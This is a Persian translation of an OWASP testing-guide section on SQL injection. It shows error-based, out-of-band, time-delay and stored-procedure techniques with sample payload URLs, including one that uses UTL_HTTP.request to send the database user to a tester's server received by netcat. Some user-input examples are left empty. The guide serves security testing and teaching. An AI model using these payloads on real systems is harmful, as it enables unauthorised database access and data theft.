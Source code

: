 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### تکنیک Error Based Exploitation Technique

یک تکنیک Error Based Exploitation زمانی مفید است که تست نفوذگر به دلایلی نمی‌تواند از آسیب‌پذیری تزریق SQL با استفاده از تکنیک‌های دیگر مانند Union استفاده کند. تکنیک Error Based Exploitation شامل مجبور کردن پایگاه‌داده برای اجرای برخی از عملیات‌ها می‌باشد که نتیجه آن بروز یک خطا خواهد بود. سپس تلاش برای استخراج برخی از داده‌ها از پایگاه‌داده و نشان دادن آن در پیام خطا است. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```


همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست بدخواهانه می‌تواند (به عنوان مثال برای Oracle 10g) به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
در این مثال، تست نفوذگر مقدار ۱۰ را با نتیجه تابع UTL_INADDR.GET_HOST_NAMEالحاق می‌کند. این تابع در Oracle تلاش خواهد کرد تا Hostname پارامتری که به آن ارسال شده است را بازگرداند که عبارت دیگر کوئری، نام کاربر است. زمانی که پایگاه‌داده به دنبال یک نام میزبان با نام پایگاه‌داده کاربر باشد، شکست خواهد خورد و یک پیغام خطا مانند زیر نمایش می‌دهد:
```text
ORA-292257: host SCOTT unknown
```
سپس تست نفوذگر می‌تواند پارامتر منتقل‌شده به تابع GET_HOST_NAME() را دستکاری کند و نتیجه در پیام خطا نشان داده خواهد شد.

### تکنیک Out of Band Exploitation Technique

این تکنیک زمانی بسیار مفید است که تست نفوذگر یک SQL Injection از نوع Blind را پیدا کند که در آن هیچ چیز در مورد نتیجه یک عملیات معلوم نیست. این تکنیک شامل استفاده از توابع DBMS برای انجام یک اتصال خارج از باند و تحویل نتایج پرس و جوی تزریق‌شده به عنوان بخشی از درخواست به سرور تست نفوذگر است. مانند تکنیک‌های مبتنی بر خطا، هر DBMS ویژگی‌های مخصوص به خود را دارد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```

درخواست بدخواهانه می‌تواند به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_HTTP.request('testerserver.com:80' || (SELECT user FROM DUAL)--
```
در این مثال، تست نفوگر مقدار ۱۰ را با نتیجه تابع UTL_HTTP.requestبه هم متصل می‌کند. این تابع Oracle تلاش خواهد کرد تا به testerserver متصل شود و یک درخواست HTTP GET شامل بازگشت از کاربر SELECT پرس و جو از DAL ایجاد کند. تستر می‌تواند یک وب سرور (‏به عنوان مثال Apache)‏ایجاد کند یا از ابزار Netcat استفاده کند:

```js
/home/tester/nc -nLp 80
GET /SCOTT HTTP/1.1 
Host: testerserver.com 
Connection: close
```
### تکنیک Time Delay Exploitation Technique

تکنیک Time Delay Exploitation زمانی بسیار مفید است که تست نفوذگر آسیب پذیری Blind SQL Injection ای را پیدا کند که در آن نتیجه یک عملیات، مشخص نیست.
این تکنیک شامل ارسال یک پرس و جوی دارای تاخیر زمانی به سمت برنامه بوده و تست نفوذگر می‌تواند با بررسی زمان پاسخ بازگشت داده شده از سرور، در صورت صحیح بودن شرایط، اطلاعات مورد نظر را استخراج نماید. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست مخرب می‌تواند به عنوان مثال در MySql نسخه 5 به شکل زیر باشد:
```url
http://www.example.com/product.php?id=10 AND IF (version() like ‘5%', sleep(10),'false')) --
```
در این مثال، تست نفوذگر بررسی می‌کند که آیا نسخه MySql ۵ است یا خیر. وی می‌تواند زمان تاخیر را افزایش دهد و پاسخ‌ها را نظارت کند.

### تکنیک Stored Procedure Injection

هنگام استفاده از SQL پویا در یک Stored Procedure، برنامه باید به درستی ورودی کاربر را برای از بین بردن خطر تزریق کد، Sanitize کند. اگر پاک‌سازی به درستی انجام نشود، کاربر می‌تواند دستورات SQL مورد نظر خود را وارد نماید که در Stored Procedure اجرا خواهد شد.

این Stored Procedure زیر را در نظر بگیرید:
```sql
Create procedure user_login @username varchar(20), @passwd varchar(20)
As
Declare @sqlstring varchar(250)
Set @sqlstring = ''
Select 1 from users
Where username = '+ @username + ' and passwd = ' + @passwd
exec(@sqlstring)
Go
```
ورودی کاربر:

این روش ورودی را Sanitize نمی‌کند، بنابراین به مقدار بازگشت اجازه می‌دهد تا یک رکورد موجود با این پارامترها را نشان دهد.

این مثال ممکن است به دلیل استفاده از SQL پویا برای ورود یک کاربر، غیر محتمل به نظر برسد، اما یک Dynamic Reporting Query را در نظر بگیرید که در آن کاربر ستون‌ها را برای مشاهده انتخاب می‌کند. کاربر می‌تواند کد مخرب را وارد این سناریو کرده و داده‌ها را به خطر بیاندازد.

مورد Stored Procedure زیر را در نظر بگیرید:

ورودی کاربر:

این امر منجر به اجرای گزارش و به روز رسانی تمام گذرواژه‌های کاربران خواهد شد.
